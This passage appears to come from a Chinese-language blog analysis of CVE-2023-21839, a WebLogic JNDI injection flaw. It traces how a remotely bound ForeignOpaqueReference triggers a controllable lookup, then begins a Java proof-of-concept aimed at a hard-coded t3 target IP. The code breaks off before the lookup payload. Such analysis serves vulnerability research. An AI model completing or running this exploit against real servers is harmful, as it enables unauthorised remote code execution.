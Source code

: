 如果想通过iiop协议绑定则把代码中的t3换成iiop即可，需要注意的是，由于在绑定的过程中，数据是序列化传输的，所以这里的MyRemoteObject需要实现Serializable接口。

## 漏洞分析

当远程对象继承自OpaqueReference时，lookup查看远程对象，服务端会调用远程对象getReferent方法。weblogic.deployment.jms.ForeignOpaqueReference继承自OpaqueReference并且实现了getReferent方法，并且存在`retVal = context.lookup(this.remoteJNDIName)`实现，故可以通过rmi/ldap远程协议进行远程命令执行

![image-20230629104728569](images/10.png)

这些和之前不一样，不是通过序列化和反序列化控制内容，而是可以远程绑定对象到服务端，调用lookup查看，然而有些Reference存在可控的lookup最终造成jndi注入

![image-20230629105245366](images/11.png)

OpaqueReference是一个接口，客户端对该对象进行JNDI查找的时候，服务器实际上是通过getReferent方法来获取该对象的实际引用

![image-20230629124438385](images/12.png)

而ForeignOpaqueReference实现了这个接口，并且在getReferent方法中存在可控的lookup

![image-20230629110626311](images/13.png)

![image-20230629110447442](images/14.png)

可以看到，其实jndiEnviroment的值是否为空都会实例化InitialContext，只是一个有jndiEnviroment，一个没有

因为我们是远程绑定的ForeignOpaqueReference对象，那么里面的值也可以通过反射修改

调用栈如下

![image-20230629111929797](images/15.png)

## 漏洞复现

```
import weblogic.deployment.jms.ForeignOpaqueReference;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://47.93.248.221:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
//        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
//        jndiEnvironment.setAccessible(true);
//        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
```